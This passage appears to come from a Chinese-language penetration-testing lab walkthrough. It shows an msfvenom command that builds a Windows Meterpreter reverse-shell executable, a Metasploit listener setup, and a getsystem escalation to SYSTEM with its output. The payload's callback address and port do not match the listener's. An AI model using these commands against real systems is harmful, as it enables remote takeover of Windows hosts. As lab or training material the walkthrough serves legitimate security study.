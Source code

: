 #### 反向 shell：

```plain
msfconsole
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.254.129 LPORT=7777 -f exe -o shell.exe
# 反向 shell
```

#### 开启 msf 监听：

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.53.131
set lport 8885
run
```

[![](assets/1701827767-937647948ca740a837bd2ec1627dbb14.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191241-b5f08a5e-9103-1.png)

提权：

```plain
meterpreter > getuid
Server username: GOD\Administrator

meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

[![](assets/1701827767-8d2ec22c22542ac477ff82da36f5af74.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191249-ba42c392-9103-1.png)
